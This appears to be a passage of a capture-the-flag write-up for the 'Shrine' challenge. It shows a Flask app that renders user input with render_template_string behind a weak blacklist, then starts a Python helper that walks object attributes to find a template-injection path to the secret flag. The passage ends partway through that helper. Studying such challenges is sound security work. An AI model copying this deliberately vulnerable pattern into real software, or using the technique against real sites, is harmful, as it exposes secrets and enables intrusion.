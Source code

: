 # Shrine

```python

import flask
import os


app = flask.Flask(__name__)
app.config['FLAG'] = os.environ.pop('FLAG')

@app.route('/')
def index():
    return open(__file__).read()

@app.route('/shrine/<path:shrine>')
def shrine(shrine):
    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist])+s
    return flask.render_template_string(safe_jinja(shrine))

if __name__ == '__main__':
    app.run(debug=True)
```

### 递归打印对象的所有字属性

```python
def search(obj, max_depth):
    visited_clss = []
    visited_objs = []
    
    def visit(obj, path='obj', depth=0):
        yield path, obj
        
        if depth == max_depth:
            return
        elif isinstance(obj, (int, float, bool, str, bytes)):
            return
        elif isinstance(obj, type):
            if obj in visited_clss:
                return
            visited_clss.append(obj)
            print(obj)
        else:
            if obj in visited_objs:
                return
            visited_objs.append(obj)
        
        # attributes
        # "__mro__", "__subclasses__()"
        for name in dir(obj):
            if name.startswith('__') and name.endswith('__'):
                if name not in  ('__globals__', '__class__', '__self__',
                                 '__weakref__', '__objclass__', '__module__'):
                    continue
            attr = getattr(obj, name)
            yield from visit(attr, '{}.{}'.format(path, name), depth + 1)
        
        # dict values
        if hasattr(obj, 'items') and callable(obj.items):
```